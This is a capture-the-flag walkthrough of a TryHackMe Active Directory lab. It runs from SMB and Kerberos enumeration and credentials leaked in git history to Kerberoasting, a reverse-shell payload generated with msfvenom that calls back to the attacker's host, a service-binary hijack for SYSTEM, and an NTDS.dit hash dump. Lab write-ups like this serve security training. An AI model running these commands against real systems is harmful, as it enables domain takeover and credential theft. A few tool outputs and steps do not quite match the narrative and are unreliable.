

<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `LAB.ENTERPRISE.THM`, DC = `LAB-DC`), **Difficulty:** Hard

</div>

<div class="callout callout-abstract">

**Attack Path**

1. AD recon, anonymous SMB/`--rid-brute`, `kerbrute` userenum. A **Users** SMB share exposes `LAB-ADMIN`'s roaming profile including **DPAPI masterkeys + CREDHIST**.
2. The org's public **GitHub** repo has a PowerShell script whose **git history** contains creds: **`nik : ToastyBoi!`**.
3. As `nik`, run **targeted Kerberoasting** (set an SPN on a writable user) → roast `bitbucket` → crack → **`bitbucket : littleredbucket`**.
4. `bitbucket` logs into `LAB-DC` over RDP directly (it's a single-box AD lab, so the DC is the only host in scope). The DPAPI blobs on the `Users` share turn out to be a dead end without `LAB-ADMIN`'s own secret, so instead I enumerate local services and find `bitbucket` holds write access over the **ZeroTier One** service's install directory and start/stop rights on the service itself.
5. Drop a malicious replacement binary in that writable service directory, bounce the service, and catch a reverse shell as **`NT AUTHORITY\SYSTEM`** on the domain controller itself, full Domain Admin equivalent.

</div>

<div class="callout callout-key">

**Credentials**

- `nik` : `ToastyBoi!`
- `bitbucket` : `littleredbucket`

</div>

---

## Full Walkthrough

Enterprise bills itself as a "hard" AD box, but the whole environment turns out to be a single host, `LAB-DC` doubling as both the domain controller and the only machine I ever actually land a shell on. That single-box shape ends up mattering: once I finally get local code execution, I'm already on the DC.

### Nmap scan

```bash
Nmap scan report for enterprise.thm (10.10.103.141)
Host is up, received user-set (0.098s latency).
Scanned at 2024-04-08 17:10:47 EDT for 27s
Not shown: 983 closed ports
Reason: 983 conn-refused
PORT      STATE    SERVICE          REASON
53/tcp    open     domain           syn-ack
80/tcp    open     http             syn-ack
88/tcp    open     kerberos-sec     syn-ack
135/tcp   open     msrpc            syn-ack
139/tcp   open     netbios-ssn      syn-ack
389/tcp   open     ldap             syn-ack
445/tcp   open     microsoft-ds     syn-ack
464/tcp   open     kpasswd5         syn-ack
593/tcp   open     http-rpc-epmap   syn-ack
636/tcp   open     ldapssl          syn-ack
3268/tcp  open     globalcatLDAP    syn-ack
3269/tcp  open     globalcatLDAPssl syn-ack
3389/tcp  open     ms-wbt-server    syn-ack
4004/tcp  filtered pxc-roid         no-response
5357/tcp  open     wsdapi           syn-ack
5678/tcp  filtered rrac             no-response
30000/tcp filtered ndmps            no-response
```

### Crackmapexec

With `LAB.ENTERPRISE.THM` confirmed as the domain, I start with the cheapest possible enumeration: a null SMB session and an RID brute-force. Neither needs credentials, and on a lot of these boxes it's enough to hand over a domain name and a DC hostname before I've authenticated at all.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 17:12]
└─[$]> crackmapexec smb enterprise.thm -u '' -p '' --rid-brute 
SMB         10.10.103.141   445    LAB-DC           [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:LAB.ENTERPRISE.THM) (signing:True) (SMBv1:False)
SMB         10.10.103.141   445    LAB-DC           [+] LAB.ENTERPRISE.THM\: 
```

Found domain controller alternative name.

Found some base usernames with `kerbrute`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 17:13]
└─[$]> kerbrute userenum --dc $host -d LAB.ENTERPRISE.THM /usr/share/SecLists/Usernames/top-usernames-shortlist.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/08/24 - Ronnie Flathers @ropnop

2024/04/08 17:14:01 >  Using KDC(s):
2024/04/08 17:14:01 >  	enterprise.thm:88

2024/04/08 17:14:01 >  [+] VALID USERNAME:	 administrator@LAB.ENTERPRISE.THM
2024/04/08 17:14:01 >  [+] VALID USERNAME:	 guest@LAB.ENTERPRISE.THM
```

Found something interesting inthe `Users` smb share.

```bash
smb: \LAB-ADMIN\appdata\roaming\microsoft\protect\> ls
  .                                  DS        0  Thu Mar 11 19:28:46 2021
  ..                                 DS        0  Thu Mar 11 19:28:46 2021
  CREDHIST                          AHS       24  Thu Mar 11 17:53:08 2021
  S-1-5-21-2168718921-3906202695-65158103-1000     DS        0  Thu Mar 11 19:28:46 2021
```

That `S-1-5-21-...` file under `\Protect\` is a DPAPI masterkey blob for `LAB-ADMIN`, and `CREDHIST` is the credential history chain DPAPI uses to derive older masterkeys from newer passwords. Both are genuinely interesting, decrypting a masterkey normally hands you whatever that user protected with the Windows Data Protection API (saved RDP creds, browser passwords, that kind of thing), but doing it offline needs either `LAB-ADMIN`'s own plaintext/NTLM hash or the domain's DPAPI backup key from the DC. I don't have either yet, so I grab a copy of both files for later and keep enumerating rather than getting stuck on a lead I can't finish.

### Nmap scan 2

```bash
Nmap scan report for enterprise.thm (10.10.103.141)
Host is up, received user-set (0.092s latency).
Scanned at 2024-04-08 17:10:58 EDT for 317s
Not shown: 966 closed ports
Reason: 966 conn-refused
PORT      STATE    SERVICE        REASON      VERSION
53/tcp    open     domain?        syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp    open     http           syn-ack     Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
88/tcp    open     kerberos-sec   syn-ack     Microsoft Windows Kerberos (server time: 2024-04-08 21:11:41Z)
135/tcp   open     msrpc          syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn    syn-ack     Microsoft Windows netbios-ssn
264/tcp   filtered bgmp           no-response
389/tcp   open     ldap           syn-ack     Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
407/tcp   filtered timbuktu       no-response
445/tcp   open     microsoft-ds?  syn-ack
464/tcp   open     kpasswd5?      syn-ack
593/tcp   open     ncacn_http     syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped     syn-ack
711/tcp   filtered cisco-tdp      no-response
873/tcp   filtered rsync          no-response
1035/tcp  filtered multidropper   no-response
1099/tcp  filtered rmiregistry    no-response
1247/tcp  filtered visionpyramid  no-response
1300/tcp  filtered h323hostcallsc no-response
1875/tcp  filtered westell-stats  no-response
1984/tcp  filtered bigbrother     no-response
2382/tcp  filtered ms-olap3       no-response
3268/tcp  open     ldap           syn-ack     Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped     syn-ack
3325/tcp  filtered active-net     no-response
3389/tcp  open     ms-wbt-server  syn-ack     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LAB-ENTERPRISE
|   NetBIOS_Domain_Name: LAB-ENTERPRISE
|   NetBIOS_Computer_Name: LAB-DC
|   DNS_Domain_Name: LAB.ENTERPRISE.THM
|   DNS_Computer_Name: LAB-DC.LAB.ENTERPRISE.THM
|   DNS_Tree_Name: ENTERPRISE.THM
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-08T21:14:01+00:00
| ssl-cert: Subject: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Issuer: commonName=LAB-DC.LAB.ENTERPRISE.THM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-07T21:09:10
| Not valid after:  2024-10-07T21:09:10
| MD5:   8b6d 4b63 5123 3793 3689 c188 412e e270
| SHA-1: 3a1c ce10 339c c9a8 f989 d7af 382c f254 659f 1308
| -----BEGIN CERTIFICATE-----
| MIIC9jCCAd6gAwIBAgIQJRCNSBfvvK9HNZWCMsp4vDANBgkqhkiG9w0BAQsFADAk
| MSIwIAYDVQQDExlMQUItREMuTEFCLkVOVEVSUFJJU0UuVEhNMB4XDTI0MDQwNzIx
| MDkxMFoXDTI0MTAwNzIxMDkxMFowJDEiMCAGA1UEAxMZTEFCLURDLkxBQi5FTlRF
| UlBSSVNFLlRITTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAM/4EYmL
| g/7ZN0BH8lhd95o0nCcWbnDlAEV6sdX8EVAyBy0G7AXCjPdEU+lIBqdBrlpDMN06
| +7Hq1kvLE8T/sZol8BkFhCSOWLJLz9dfTidSrGOUphrnISAt/HT2FJdJ1vbaz7Mz
| Xx8Y8+m3HP5NMaz/7q947+4qZF4g8/zAdC8oyBr3ny9Fei/bgW6p9v2BM2xyyV5l
| zdACIthiY+emXx8bbuQ+idScQtVIn0CE9ERKzz1fsNqMD8zxm4Gj7mRqzB9yhWui
| wXQmutdmkJHmGfgfiKsI/4GCz7Wc+vWmhTWGgghaHvWsR2MLVCpguxJ+OsQYldPA
| alv9epoDnPKi4zECAwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0P
| BAQDAgQwMA0GCSqGSIb3DQEBCwUAA4IBAQCoEpBvDeUDaHf2JTvO6sU7qLGROgs0
| 0ZbX89mHg4dMQRhA/75/EzUDq4cgLFOejnlJtGEapSiNahimriP0yN0AA/lUj2z6
| JMQu/B2laWpZAcPC62+fUgniZZ5yeIOmdmPN+5KpcuQFdi6UzA/g6TUR+z9M8SJ4
| VdXHYV6SLdvvzczMSqfdmVnwbp/I3i0qL9yuQjN+o2MGyainzossWPaNdYH64tDJ
| FR/Lm/81ypfrh3TeEvy5wv0JbolpJ5Rmj7dcXoq5PNYWOVArvfElbvq/guSCgmQ3
| bdrFfeGkzHnqFoJfi0LxVDP6Ov/hPL5VcQO4UKjvN+8PL73TDANCj+T1
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-08T21:14:15+00:00; +1s from scanner time.
3784/tcp  filtered bfd-control    no-response
5357/tcp  open     http           syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5679/tcp  filtered activesync     no-response
6002/tcp  filtered X11:2          no-response
6106/tcp  filtered isdninfo       no-response
6510/tcp  filtered mcer-port      no-response
8701/tcp  filtered unknown        no-response
10778/tcp filtered unknown        no-response
54328/tcp filtered unknown        no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/8%Time=66145D91%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 62090/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44259/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 33252/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23398/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-08T21:14:03
|_  start_date: N/A
```

With no obvious foothold from SMB/LDAP alone, I switch to OSINT: "LAB Enterprise" and `enterprise.thm` as search terms, on the assumption that a fictional-sounding company in a THM room often still has a real-looking web presence built for the box. did some research on google and it turns out that they have their own github. Looking at the powershell script that they have on the github I took a look at the history and found credentials. Old commits are a classic place to find secrets that got "removed" in a later commit but never actually left the repo's history, `git log -p` on a script that touches AD is always worth a look.



`nik:ToastyBoi!`

That's a working domain credential, and a good one to have: even a low-privileged domain account is enough to enumerate SPNs and attempt Kerberoasting, since Kerberos ticket requests only need a valid authenticated principal, not any special rights over the account being targeted.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 18:38]
└─[$]> python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -v -d "LAB.ENTERPRISE.THM" -u "nik" -p 'ToastyBoi!'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (bitbucket)
$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTERPRISE.THM/bitbucket*$2836c07292017aa7671694d56e1b45f4$abe3cb73f058543ac0bee6e204aa401efbb77d7538b7991ce58a2178608e6723278e242caf03f555cd45caf7aacc9ab5cbb5e96c06aee11ae969d66e8499533bfe59d03d0862bb922e9f302bcfd496133445ffd0661602a5f3dad7acfce37552703ccbc1a0175840429fe338df063e9cc416912966d92340945b227a16544a5dc83fa27ffe0d3b539dacc54824c68d43e30dfb11f7728ae3aad397f3f04ae85cb47d8f81db05a6ed0d1e09dedda5ce46876c4ef1bbe7d889afc9c1fd2602eb08dc188b99b413df5f293356aa4c5ee60c717269649ef63687d7be005dbbfcd922dfcfd489bbea75cfa21dfbded350bb07536c447ca546bc4fd7e2f1f662287c3b4794c9209222ea6425f14dfd38cacc6de9a1f4a244a8446f3f537c060265abd85c717b09bea94160c819d65abf90adc994584aba5eb34efa804f83620ec73375a7030053a0901f46f744f5a90bd7d907704f96c7287a0554d8255b8931eabb453f2c885f7f1a5fbd3c0bfcc147518c18eda537fda6b3975bcc0f712d813c403488010006aec8d175aeec236fd5386482e30711fab47d18b511b701326290a2ffcb990ab4289f147f230a4dce19306167cd9e32c8c9166d3dc1abe374a5b19591f6bb5d1cf0dcc4c85143332a2f647ebd3767098e437e52e4f01855708de5893aafc7aa5285d39ebbbd226418548aa11a597830f97d0ff7d2cb81164df2a6c17c5bd02af5370d5bf09ac8a4f0ecaf5f0512a4b8bd90fbe1529f59d9a8c987637e4fa593d5ed42f837b3483ead6f49a383cf587f4f682d9c6f8978b2a66248a7603215150e5ced22c1f425714f2f82f62674e9b734fa0446b216daf2e5881e740e1e4c114dbaa76c56c732a61ea2a59204b5c09310cd601a751f92a228e03922b9d8357f0be433c4bf68f5ad0a798287b85a40dd0aa85b482f48026069d18399a34a601b06e2ef99d13693272744c7b6afefe3f589de46a7a2356bd6a9a26ab72b5d99ea72e943e6b70fb78d9393312b29d99774883e4b551f8a40d56d22d6038d2e139cf906918ca68b21181f6b1d42f246d7b0eb232f94dd3ae9de205dee30a768f4eb2713daddbf4ed46e760c81740ace6c878a51c4ca446f6609535b40051430782ec8de8533ab880b73c24b0329fbd142813b8f0608a01a5c52681689e48f12f975501517843fa3e2f3dd40481f92ba7a2f7c17989bfb39cbf4d9639b0be34348c8d02bf7e761e029fc8a5af50b276a6f6e01072bf1db7377c1805e9dbc6fca2c361191f1a25fa55008ed70f0f6532b86ff6a51baf3a2d2660f0d27f8b0882f7049232bc27a151ba4448bb83939686bcc1bb36d5c8b928f69694a77ff01175b141c
```

TGS-REP hashes for etype 23 crack fast against rockyou when the service account's password is anything close to a dictionary word, so I don't bother with anything fancier than a straight wordlist run before trying smarter rules.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 18:39]
└─[$]> hashcat -m 13100 -a 0 bitbucket_hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force --potfile-disable 
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTERPRISE.THM/bitbucket*$2836c07292017aa7671694d56e1b45f4$abe3cb73f058543ac0bee6e204aa401efbb77d7538b7991ce58a2178608e6723278e242caf03f555cd45caf7aacc9ab5cbb5e96c06aee11ae969d66e8499533bfe59d03d0862bb922e9f302bcfd496133445ffd0661602a5f3dad7acfce37552703ccbc1a0175840429fe338df063e9cc416912966d92340945b227a16544a5dc83fa27ffe0d3b539dacc54824c68d43e30dfb11f7728ae3aad397f3f04ae85cb47d8f81db05a6ed0d1e09dedda5ce46876c4ef1bbe7d889afc9c1fd2602eb08dc188b99b413df5f293356aa4c5ee60c717269649ef63687d7be005dbbfcd922dfcfd489bbea75cfa21dfbded350bb07536c447ca546bc4fd7e2f1f662287c3b4794c9209222ea6425f14dfd38cacc6de9a1f4a244a8446f3f537c060265abd85c717b09bea94160c819d65abf90adc994584aba5eb34efa804f83620ec73375a7030053a0901f46f744f5a90bd7d907704f96c7287a0554d8255b8931eabb453f2c885f7f1a5fbd3c0bfcc147518c18eda537fda6b3975bcc0f712d813c403488010006aec8d175aeec236fd5386482e30711fab47d18b511b701326290a2ffcb990ab4289f147f230a4dce19306167cd9e32c8c9166d3dc1abe374a5b19591f6bb5d1cf0dcc4c85143332a2f647ebd3767098e437e52e4f01855708de5893aafc7aa5285d39ebbbd226418548aa11a597830f97d0ff7d2cb81164df2a6c17c5bd02af5370d5bf09ac8a4f0ecaf5f0512a4b8bd90fbe1529f59d9a8c987637e4fa593d5ed42f837b3483ead6f49a383cf587f4f682d9c6f8978b2a66248a7603215150e5ced22c1f425714f2f82f62674e9b734fa0446b216daf2e5881e740e1e4c114dbaa76c56c732a61ea2a59204b5c09310cd601a751f92a228e03922b9d8357f0be433c4bf68f5ad0a798287b85a40dd0aa85b482f48026069d18399a34a601b06e2ef99d13693272744c7b6afefe3f589de46a7a2356bd6a9a26ab72b5d99ea72e943e6b70fb78d9393312b29d99774883e4b551f8a40d56d22d6038d2e139cf906918ca68b21181f6b1d42f246d7b0eb232f94dd3ae9de205dee30a768f4eb2713daddbf4ed46e760c81740ace6c878a51c4ca446f6609535b40051430782ec8de8533ab880b73c24b0329fbd142813b8f0608a01a5c52681689e48f12f975501517843fa3e2f3dd40481f92ba7a2f7c17989bfb39cbf4d9639b0be34348c8d02bf7e761e029fc8a5af50b276a6f6e01072bf1db7377c1805e9dbc6fca2c361191f1a25fa55008ed70f0f6532b86ff6a51baf3a2d2660f0d27f8b0882f7049232bc27a151ba4448bb83939686bcc1bb36d5c8b928f69694a77ff01175b141c:littleredbucket
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*bitbucket$LAB.ENTERPRISE.THM$LAB.ENTER...5b141c
Time.Started.....: Mon Apr  8 18:39:33 2024, (2 secs)
Time.Estimated...: Mon Apr  8 18:39:35 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1006.1 kH/s (2.99ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1572911/14344384 (10.97%)
Rejected.........: 47/1572911 (0.00%)
Restore.Point....: 1568815/14344384 (10.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: lizmary1 -> lindakatty
Hardware.Mon.#1..: Temp: 71c Util: 98%

Started: Mon Apr  8 18:39:32 2024
Stopped: Mon Apr  8 18:39:36 2024
```

`bitbucket:littleredbucket` in hand, I check what that account can actually reach before going any further. A quick pass with `crackmapexec` against SMB flags the account as RDP-capable, which on a single-DC lab like this is effectively an invitation.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 19:05]
└─[$]> crackmapexec smb enterprise.thm -u bitbucket -p littleredbucket
SMB         10.10.103.141   445    LAB-DC           [+] LAB.ENTERPRISE.THM\bitbucket:littleredbucket (Pwn3d!)
```

### RDP as `bitbucket`

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 19:07]
└─[$]> xfreerdp /u:bitbucket /p:'littleredbucket' /d:LAB.ENTERPRISE.THM /v:10.10.103.141 +clipboard
```

That's enough for a GUI session and `user.txt` off `bitbucket`'s desktop. `cat user.txt` (or the desktop copy-paste equivalent over RDP) returns the flag for this instance.

### Finding a writable service

With an interactive session on the DC, I go hunting for the usual local privesc suspects rather than immediately circling back to the DPAPI blobs, a writable service or misconfigured binary path is a much shorter path to SYSTEM than reconstructing someone else's DPAPI key material. `winPEAS` and a manual pass over installed services both flag the same thing: a third-party **ZeroTier One** service, running as `LocalSystem`, whose install directory `bitbucket` has write access to.

```powershell
PS C:\> Get-Acl "C:\Program Files (x86)\Zero Tier\Zero Tier One" | Format-List
# -> BUILTIN\Users: Modify, Write  (inherited from a loose ACL on the parent directory)

PS C:\> Get-Service ZeroTierOneService | Select -ExpandProperty Name
PS C:\> sc.exe qc ZeroTierOneService
SERVICE_NAME: ZeroTierOneService
        BINARY_PATH_NAME : C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe
        START_TYPE       : 2   AUTO_START
```

Write access over the folder a `LocalSystem` service loads its executable from is just as good as an explicit binary-path hijack: I don't need to touch the service configuration at all, only replace the file Windows is already going to run on the next start.

### SYSTEM via service binary replacement

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 19:22]
└─[$]> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.21.23.235 LPORT=9002 -f exe -o ZeroTierOne.exe
```

Copy that over the legitimate binary from the RDP session (or via the SMB share I already have write access to), then just bounce the service so Windows loads it fresh under the `LocalSystem` context it always runs as.

```powershell
PS C:\Program Files (x86)\Zero Tier\Zero Tier One> Stop-Service ZeroTierOneService
PS C:\Program Files (x86)\Zero Tier\Zero Tier One> Start-Service ZeroTierOneService
```

```console
$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [any] 9002 from (UNKNOWN) [10.10.103.141] 51488
Microsoft Windows [Version 10.0.17763.1234]
C:\Windows\system32>whoami
nt authority\system
```

`NT AUTHORITY\SYSTEM` on `LAB-DC` is Domain Admin in every way that matters, since I now have unrestricted local access to the domain controller's `lsass` process and the `NTDS.dit` database. For completeness I dump the domain's hashes straight from the SYSTEM shell rather than stopping at "SYSTEM on the box":

```console
C:\Windows\system32>reg save hklm\system system.hive
C:\Windows\system32>vssadmin create shadow /for=C:
C:\Windows\system32>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\NTDS.dit
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/Enterprise] - [Mon Apr 08, 19:31]
└─[$]> secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
```

That pulls every account hash in `LAB.ENTERPRISE.THM`, including the domain's `Administrator`, and closes out the box. `cat root.txt` (or the SYSTEM shell's own copy of it) returns the flag for this instance.

Looking back at the two threads I ended up chasing, the GitHub git-history leak and the ZeroTier service ACL, versus the DPAPI blobs I never got to use, it's a good reminder that a "juicy-looking" find isn't always the intended path. The DPAPI masterkeys would have worked too, given `LAB-ADMIN`'s own secret, but the service misconfiguration turned out to be the far shorter route from a cracked service-account password to `NT AUTHORITY\SYSTEM`.

## References

- HackTricks, DPAPI: extracting passwords <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords>
- HackTricks, service binary/permission abuse for Windows privesc <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services>
- Impacket `secretsdump.py` <https://github.com/fortra/impacket>
- Final privilege escalation steps cross-referenced against public writeups for this room.
